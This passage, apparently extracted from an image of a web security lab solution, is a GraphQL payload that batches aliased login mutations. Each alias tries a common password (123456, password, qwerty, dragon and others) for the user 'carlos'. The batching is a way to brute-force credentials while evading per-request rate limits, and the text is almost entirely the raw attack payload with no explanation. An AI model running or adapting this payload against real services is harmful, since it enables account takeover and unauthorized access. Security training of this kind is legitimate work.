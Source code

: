 ```bash
bruteforce0:login(input:{password: "123456", username: "carlos"}) {
        token
        success
    }


bruteforce1:login(input:{password: "password", username: "carlos"}) {
        token
        success
    }


bruteforce2:login(input:{password: "12345678", username: "carlos"}) {
        token
        success
    }


bruteforce3:login(input:{password: "qwerty", username: "carlos"}) {
        token
        success
    }


bruteforce4:login(input:{password: "123456789", username: "carlos"}) {
        token
        success
    }


bruteforce5:login(input:{password: "12345", username: "carlos"}) {
        token
        success
    }


bruteforce6:login(input:{password: "1234", username: "carlos"}) {
        token
        success
    }


bruteforce7:login(input:{password: "111111", username: "carlos"}) {
        token
        success
    }


bruteforce8:login(input:{password: "1234567", username: "carlos"}) {
        token
        success
    }


bruteforce9:login(input:{password: "dragon", username: "carlos"}) {
        token
        success
    }


bruteforce10:login(input:{password: "123123", username: "carlos"}) {
        token
        success
```